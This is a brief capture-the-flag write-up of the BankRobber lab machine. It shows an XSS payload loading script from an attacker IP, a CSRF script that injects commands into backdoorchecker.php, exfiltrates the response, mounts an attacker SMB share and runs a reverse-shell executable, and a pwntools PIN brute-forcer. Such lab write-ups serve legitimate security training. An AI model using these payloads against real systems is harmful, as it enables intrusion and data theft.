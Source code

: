 # BankRobber

this box starts of with doing a XSS to gain the admin credentials, and once we gain the admin, again, we use a CSRF to exploit a functionality to gain code execution

XSS Used:

```text
This is on the webpage
<script src="http://10.10.14.28:81/script.js"></script>
```

```text
This is the script.js, used to do CSRF or is this SSRF? idk

var xhr = new XMLHttpRequest();
xhr.open('post', 'http://localhost/admin/backdoorchecker.php', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.withCredentials = true;

# couldn't get this piece to work, but including it anyway
xhr.onreadystatechange = function () {
    if (xhr.readyState === XMLHttpRequest.DONE) {
        //if (xhr.status === 200 || xhr.status === 302) {
            console.log(xhr.response);
            console.log(xhr.responseText);
        document.write('<img src="http://10.10.14.28:81/abcd?data=' + btoa(xhr.responseText) + btoa(xhr.response)+'" />');
        //}
    }
};

establishing a share on the remote machine
xhr.send('cmd=dir | net use x: \\\\10.10.14.28\\kalishare /user:guest guest ');
#xhr.send('cmd=dir | x:\\shell.exe'); => this gets us reverse shell;
```

after getting a root shell, we see a process on port 910. on a bit usual stuff, it's a simple buffer overflow :\). This is the below python3 script used to brute-force the key on the executable

```text
from pwn import *

for i in range(0,9999):
  code = '0'*(4 - len(str(i))) + str(i)
  r = remote('localhost', '910', level='error')
  r.recvuntil(str.encode('[$]'))
  r.sendline(str.encode(code))
  resp = r.recvline()
  r.close()

  if str.encode("Access denied") not in resp:
    log.success('CODE: {}'.format(code))
    exit(1)
```

